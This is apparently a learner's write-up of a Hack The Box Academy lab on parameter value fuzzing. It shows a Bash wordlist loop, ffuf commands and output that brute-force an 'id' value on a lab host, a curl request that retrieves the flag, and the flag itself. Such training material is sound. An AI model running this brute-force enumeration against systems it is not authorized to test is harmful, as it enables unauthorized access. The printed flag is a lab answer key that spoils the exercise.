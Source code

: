 ```yaml
---
sticker: lucide//code
---
```

After fuzzing a working parameter, we now have to fuzz the correct value that would return the `flag` content we need. This section will discuss fuzzing for parameter values, which should be fairly similar to fuzzing for parameters, once we develop our wordlist.

---

## Custom Wordlist

When it comes to fuzzing parameter values, we may not always find a pre-made wordlist that would work for us, as each parameter would expect a certain type of value.

For some parameters, like usernames, we can find a pre-made wordlist for potential usernames, or we may create our own based on users that may potentially be using the website. For such cases, we can look for various wordlists under the `seclists` directory and try to find one that may contain values matching the parameter we are targeting. In other cases, like custom parameters, we may have to develop our own wordlist. In this case, we can guess that the `id` parameter can accept a number input of some sort. These ids can be in a custom format, or can be sequential, like from 1-1000 or 1-1000000, and so on. We'll start with a wordlist containing all numbers from 1-1000.

There are many ways to create this wordlist, from manually typing the IDs in a file, or scripting it using Bash or Python. The simplest way is to use the following command in Bash that writes all numbers from 1-1000 to a file:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Once we run our command, we should have our wordlist ready:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ cat ids.txt

1
2
3
4
5
6
<...SNIP...>
```

Now we can move on to fuzzing for values.

---

## Value Fuzzing

Our command should be fairly similar to the `POST` command we used to fuzz for parameters, but our `FUZZ` keyword should be put where the parameter value would be, and we will use the `ids.txt` wordlist we just created, as follows:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:30794/admin/admin.php
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

<...SNIP...>                      [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

We see that we get a hit right away. We can finally send another `POST` request using `curl`, as we did in the previous section, use the `id` value we just found, and collect the flag.

# Question
---
![](images/Pasted%20image%2020250129160543.png)

So, we need to create the `ids.txt` wordlist, let's use the following command:

`for i in $(seq 1 1000); do echo $i >> ids.txt; done`

![](images/Pasted%20image%2020250129160645.png)

We can do `wc -l ids.txt` to check that indeed it has 1000 elements. 

Let's proceed with the fuzzing:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'`

![](images/Pasted%20image%2020250129160803.png)

Let's filter out by size 768: `-fs 768`:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic `

```
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:49384/admin/admin.php
 :: Wordlist         : FUZZ: /home/htb-ac-1340293/ids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 768
________________________________________________

73                      [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 77ms]
```

We got it, `73`, let's use curl now in order to collect the flag:

`curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{`

```
curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{
<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>
```

Flag is: `HTB{p4r4m373r_fuzz1n6_15_k3y!}`

